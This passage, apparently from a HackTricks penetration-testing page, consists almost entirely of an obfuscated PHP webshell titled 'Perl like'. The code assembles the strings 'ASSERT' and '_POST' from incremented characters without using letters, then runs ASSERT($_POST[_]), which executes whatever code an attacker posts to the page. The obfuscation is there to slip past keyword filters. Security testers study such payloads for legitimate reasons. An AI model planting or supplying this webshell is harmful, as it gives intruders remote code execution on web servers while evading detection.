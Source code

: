 ### Perl like

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```


{{#include ../../../banners/hacktricks-training.md}}



